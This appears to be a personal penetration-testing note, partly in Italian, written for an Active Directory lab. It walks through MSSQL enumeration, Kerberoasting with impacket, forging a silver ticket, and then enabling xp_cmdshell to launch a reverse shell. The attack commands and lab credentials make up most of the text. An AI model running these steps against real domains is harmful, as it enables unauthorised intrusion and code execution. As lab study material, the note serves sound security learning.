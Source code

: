 ### **ENUM MSSQL**
Vediamo quali server hanno MSSQL attivo
```bash
nmap -p 1433 -sV -sC <RANGE IP>
```
![[Pasted image 20230830110346.png]]
![[Pasted image 20230830110835.png]]
Controlliamo se ci sono utenti con SPN sui server MSSQL trovati
```bash
impacket-GetUserSPNs north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
![[Pasted image 20230830104754.png]]
```bash
GetUserSPNs.py -target-domain essos.local north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
![[Pasted image 20230830110943.png]]
è possibile anche usare crackmapexec per enumerare
```bash
crackmapexec mssql 192.168.56.22-23
```
![[Pasted image 20230830151845.png]]

### **SILVER TICKET ATTACK**
To perform the silver ticket attack against the SQL service we need three things: 	
1. The NTLM hash of the password of the SqlSvc account. (TGT?)
2. The domain SID. 
```basH
impacket-getPac -targetUser <USER> <DOMAIN>/<USER>:<PASS>
```
3. The SPN that the SqlSvc account is using.
```bash
GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -k -dc-ip dc1.scrm.local -no-pass -request
```

Possiamo quindi ora ottenere il silver ticket
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -nthash <sqlsvc NTLM hash> -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local administrator
```
![[Pasted image 20230621120729.png]]
exporta il ticket
```bash
export KRB5CCNAME=/tmp/administrator.ccache
```
se funziona tutto con klist dovresti vedere ciò
![[Pasted image 20230621121052.png]]
connettiti con 
```bash
impacket-mssqlclient -k <macchina>
```
### **RCE**
```bash
enable_xp_cmdshell;
```

```bash
xp_cmdshell <REV SHELL>
```
consiglio la powershell #3 (base64)

